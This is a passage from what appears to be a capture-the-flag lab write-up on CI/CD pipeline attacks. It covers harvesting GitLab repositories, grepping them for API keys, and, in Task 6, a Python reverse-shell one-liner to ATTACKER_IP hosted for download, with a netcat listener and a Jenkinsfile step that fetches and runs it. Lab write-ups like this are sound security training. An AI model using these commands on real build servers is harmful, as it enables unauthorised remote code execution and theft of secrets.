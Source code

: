 ```python
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
        print (e)
        pass
```

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228014439.png)

If you run into a problem with missing dependencies the easiest way to solve this on the Attackbox is by making a python virtual environment. Then just install the package.

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228014624.png)

Now we can run the enumerator and it will download a bunch of files

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228014649.png)

We will be focusing on the mobile app file, let's unzip it.

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228014737.png)

Then we can cd in and use `grep -iR key *` to find any references to key in the directory.

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228014812.png)

This worked and we can now finished with this task.

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228014057.png)

```
.gitignore
branches
unauthorised tampering
THM{You.Found.The.API.Key}
```
## Task 6: Securing the Build Process

This task is pretty straight forward. Start by forking the `Merge Test` project in gitlab. 

Create a new directory on the Attackbox using 
```
mkdir task6
cd task6
```
Create a file called `shell.sh` and put the following code inside:
```bash
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```
Host the file on using a simple python http server:
```
python3 -m http.server 8080
```
Create a listener the reverse shell will attach to:
```
root@AttackBox:~$ nc -lvp 8081 
Listening on 0.0.0.0 8081 
```
Finally, go to gitlab and add the following to the jenkinsfile. This will reach out the http server, download the shell.sh file and run it. This will then create a reverse shell and connect to our listener.  